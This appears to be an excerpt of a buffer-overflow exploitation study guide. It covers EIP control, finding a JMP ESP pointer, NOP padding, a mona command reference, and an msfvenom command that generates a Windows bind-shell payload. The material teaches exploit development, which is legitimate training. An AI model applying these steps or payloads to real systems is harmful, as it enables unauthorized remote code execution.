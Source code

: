 > DLL's are loaded statically to the memory addresses pre Windows Vista

### Set a breakpoint at your EIP location and confirm it triggers and you end up on your next instruction at JMP ESP \(or whatever location

1. `bp 0x77c354`or alternatively you can search for memory location and press `F2`
2. Use `F7` to step through and confirm the PUSH ESP and RETN jumps over to our "D" \(potential shellcode\)
3. Remember endianness when updating our fuzzer with the EIP location above to jump to the dll PUSH ESP operation which will send control to the overwritten ESP where our shellcode will be

### Generating shellcode


> If EIP and ESP are very close together we'll need to add an instruction to add some space to ESP
>
>     metasm: add esp, 1500h
>     metasm: sub esp, -1500h
>

Another method is to insert of NOP's prior to the shellcode

Adding NOP's to your shellcode

    ... ... + "\x90" * 30 + shellcode

#### Generated shellcode using `msfvenom`

##### Windows Bind Shell
`msfvenom -p windows/shell_bind_tcp -f python -b '\x00\x40\x0a\x0d'`

For more shellcode examples see the [Generating Shellcode](generating-shellcode.md) section.

## Summary

1. Crash the program \(Spike, Peach or custom script\)
2. Control EIP
3. Confirm what other registers are data has overwritten \(!mona findmsp\)
4. Check for bad characters
5. Locate a suitable DLL pointer that will return execution to a register we control \(jmp esp instruction for example\)
6. Generate our shellcode \(remember to -b '\x00' to exclude any bad characters\)
7. Send our final exploit buffer

## Mona Reference

| Description | Command |
| :--- | :--- |
| Set mona working directory | !mona config -set workingfolder c:\logs\%p |
| Generate byte array for bad characters | !mona bytearray |
| Byte array excluding known bad character | !mona bytearray -cpb \x00 |
| Compare byte array to detect bad characters | !mona compare -f c:\logs\slmail\bytearray.bin -a 0x01cea154 \(address contained on ESP\) |
